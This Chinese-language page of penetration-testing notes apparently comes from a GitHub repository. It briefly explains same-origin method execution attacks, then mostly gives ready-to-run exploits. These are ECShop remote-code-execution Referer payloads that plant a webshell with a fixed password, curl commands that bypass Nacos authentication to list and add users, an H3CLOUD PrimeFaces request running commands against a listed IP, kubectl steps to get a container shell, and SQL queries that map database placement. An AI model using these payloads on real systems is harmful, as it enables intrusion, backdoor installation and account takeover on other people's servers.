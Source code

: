 # Web 安全

**同源方式执行（SOME）攻击**

**原理及危害**

> json可以理解为，用户可以控制输入的一种JS函数。并且这种函数可以跨域访问。这就很恐怖了。比如某些存在父子网页的并且还为做过滤，很有可能你一点击后就会自动执行某些链接，如自动关注，点赞等。

**攻击条件**
> 存在用户可控函数点，读取用户输入执行对应javascript代码（即寻找JSONP点，通常以get方法callback名传入）

**SOME复现**

通过一个大佬写的SOME靶场来练习复现:



### ECShop <= 2.x/3.6.x/3.0.x 版本远程代码执行高危漏洞利用

[ECShop <= 2.7.x 全系列版本远程代码执行高危漏洞利用](https://www.vulnspy.com/cn-ecshop-2.7.x-rce-exploit/)

[ECShop <= 2.x/3.6.x/3.0.x 版本远程代码执行高危漏洞利用](https://www.vulnspy.com/cn-ecshop-3.x.x-rce-exploit/)

**打开 ECSHOP 实验地址**

![](PHP绕过/绕过%20disable_functions/img/4.png)

**发送 Payload 执行 phpinfo();**

`将***.vsplate.me换成您的实验地址`

在终端中执行：

`curl http://***.vsplate.me/user.php -d "action=login&vulnspy=phpinfo();exit;" -H 'Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:3:{s:3:"num";s:207:"*/ select 1,0x2720756e696f6e2f2a,3,4,5,6,7,8,0x7b247b2476756c6e737079275d3b6576616c2f2a2a2f286261736536345f6465636f646528275a585a686243676b5831425055315262646e5673626e4e77655630704f773d3d2729293b2f2f7d7d,0--";s:2:"id";s:9:"'"'"' union/*";s:4:"name";s:3:"ads";}45ea207d7a2b68c49582d2d22adf953a'`

EXP与一个小脚本
2.x
phpinfo():
```
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:110:"*/ union select 1,0x27202f2a,3,4,5,6,7,8,0x7b24616263275d3b6563686f20706870696e666f2f2a2a2f28293b2f2f7d,10-- -";s:2:"id";s:4:"' /*";}554fcae493e564ee0dc75bdf2ebf94ca
```
webshell:
```
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:280:"*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:3:"'/*";}
```
　　会在网站根目录生成1.php，密码：1337

3.x
phpinfo():
```
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a
```
webshell:
```
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:289:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a
```
会在网站根目录生成1.php，密码：1337



![LARAVEL <= V8.4.2调试模式：远程执行代码](https://www.ambionics.io/blog/laravel-debug-rce)




[nacos绕过身份验证](https://github.com/alibaba/nacos/issues/4593)

漏洞复现

1. 访问用户列表界面

```bash
curl XGET 'http://47.93.46.78:9090/nacos/v1/auth/users?pageNo=1&pageSize=9' -H 'User-Agent: Nacos-Server'


curl XGET 'http://127.0.0.1:8848/nacos/v1/auth/users?pageNo=1&pageSize=9' -H 'User-Agent: Nacos-Server'
```

此时认证被绕过，并且返回用户列表数据

```json
{
    "totalCount": 1,
    "pageNumber": 1,
    "pagesAvailable": 1,
    "pageItems": [
        {
            "username": "nacos",
            "password": "$2a$10$EuWPZHzz32dJN7jexM34MOeYirDdFAZm2kuWj7VEOJhhZkDrxfvUu"
        }
    ]
}
```

2. 添加新用户

```bash
curl -XPOST 'http://127.0.0.1:8848/nacos/v1/auth/users?username=test&password=test' -H 'User-Agent: Nacos-Server'
```

此时绕过身份验证，并添加了新用户
```json
{
    "code":200,
    "message":"create user ok!",
    "data":null
}
```


3. 再次查看用户列表

```bash
curl XGET 'http://127.0.0.1:8848/nacos/v1/auth/users?pageNo=1&pageSize=9' -H 'User-Agent: Nacos-Server'
```

此时绕过身份验证成功创建了一个用户。

```json
{
    "totalCount": 2,
    "pageNumber": 1,
    "pagesAvailable": 1,
    "pageItems": [
        {
            "username": "nacos",
            "password": "$2a$10$EuWPZHzz32dJN7jexM34MOeYirDdFAZm2kuWj7VEOJhhZkDrxfvUu"
        },
        {
            "username": "test",
            "password": "$2a$10$5Z1Kbm99AbBFN7y8Dd3.V.UGmeJX8nWKG47aPXXMuupC7kLe8lKIu"
        }
    ]
}
```

[nacos后台存在注入]

`命名空间 - 操作 - 详情 - 抓包` 1.4,1.3版本 存在该SQL注入漏洞。


H3CLOUD云管理平台

```
POST /cloud/javax.faces.resource/dynamiccontent.properties.xhtml HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 2.88.154.11
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
Connection: Keep-alive
Content-Length: 1563

pfdrt=sc&ln=primefaces&pfdrid=uMKljPgnOTVxmOB%2BH6%2FQEPW9ghJMGL3PRdkfmbiiPkUDzOAoSQnmBt4dYyjvjGhVqupdmBV%2FKAe9gtw54DSQCl72JjEAsHTRvxAuJC%2B%2FIFzB8dhqyGafOLqDOqc4QwUqLOJ5KuwGRarsPnIcJJwQQ7fEGzDwgaD0Njf%2FcNrT5NsETV8ToCfDLgkzjKVoz1ghGlbYnrjgqWarDvBnuv%2BEo5hxA5sgRQcWsFs1aN0zI9h8ecWvxGVmreIAuWduuetMakDq7ccNwStDSn2W6c%2BGvDYH7pKUiyBaGv9gshhhVGunrKvtJmJf04rVOy%2BZLezLj6vK%2BpVFyKR7s8xN5Ol1tz%2FG0VTJWYtaIwJ8rcWJLtVeLnXMlEcKBqd4yAtVfQNLA5AYtNBHneYyGZKAGivVYteZzG1IiJBtuZjHlE3kaH2N2XDLcOJKfyM%2FcwqYIl9PUvfC2Xh63Wh4yCFKJZGA2W0bnzXs8jdjMQoiKZnZiqRyDqkr5PwWqW16%2FI7eog15OBl4Kco%2FVjHHu8Mzg5DOvNevzs7hejq6rdj4T4AEDVrPMQS0HaIH%2BN7wC8zMZWsCJkXkY8GDcnOjhiwhQEL0l68qrO%2BEb%2F60MLarNPqOIBhF3RWB25h3q3vyESuWGkcTjJLlYOxHVJh3VhCou7OICpx3NcTTdwaRLlw7sMIUbF%2FciVuZGssKeVT%2FgR3nyoGuEg3WdOdM5tLfIthl1ruwVeQ7FoUcFU6RhZd0TO88HRsYXfaaRyC5HiSzRNn2DpnyzBIaZ8GDmz8AtbXt57uuUPRgyhdbZjIJx%2FqFUj%2BDikXHLvbUMrMlNAqSFJpqoy%2FQywVdBmlVdx%2BvJelZEK%2BBwNF9J4p%2F1fQ8wJZL2LB9SnqxAKr5kdCs0H%2FvouGHAXJZ%2BJzx5gcCw5h6%2Fp3ZkZMnMhkPMGWYIhFyWSSQwm6zmSZh1vRKfGRYd36aiRKgf3AynLVfTvxqPzqFh8BJUZ5Mh3V9R6D%2FukinKlX99zSUlQaueU22fj2jCgzvbpYwBUpD6a6tEoModbqMSIr0r7kYpE3tWAaF0ww4INtv2zUoQCRKo5BqCZFyaXrLnj7oA6RGm7ziH6xlFrOxtRd%2BLylDFB3dcYIgZtZoaSMAV3pyNoOzHy%2B1UtHe1nL97jJUCjUEbIOUPn70hyab29iHYAf3%2B9h0aurkyJVR28jIQlF4nT0nZqpixP%2Fnc0zrGppyu8dFzMqSqhRJgIkRrETErXPQ9sl%2BzoSf6CNta5ssizanfqqCmbwcvJkAlnPCP5OJhVes7lKCMlGH%2BOwPjT2xMuT6zaTMu3UMXeTd7U8yImpSbwTLhqcbaygXt8hhGSn5Qr7UQymKkAZGNKHGBbHeBIrEdjnVphcw9L2BjmaE%2BlsjMhGqFH6XWP5GD8FeHFtuY8bz08F4Wjt5wAeUZQOI4rSTpzgssoS1vbjJGzFukA07ahU%3D&cmd=whoami
```


**K8S获取容器shell**

```
kubtctl.exe -s ip:port get pods
kubectl.exe -s ip:port --namespace=default exec -it <CONTAINER ID> bash
```



**判断是否是站库分离**


1
```
（1）查询web服务器名

LENOVO-GH*****---select @@servername; 

（2）查询数据库服务器名

DESKTOP-1HV****---select host_name();

对比两个查询结果，即可判断。相同则同站同库，不同就是站库分离
```
2
```
找Web端IP地址select * from information_schema.PROCESSLIST;
```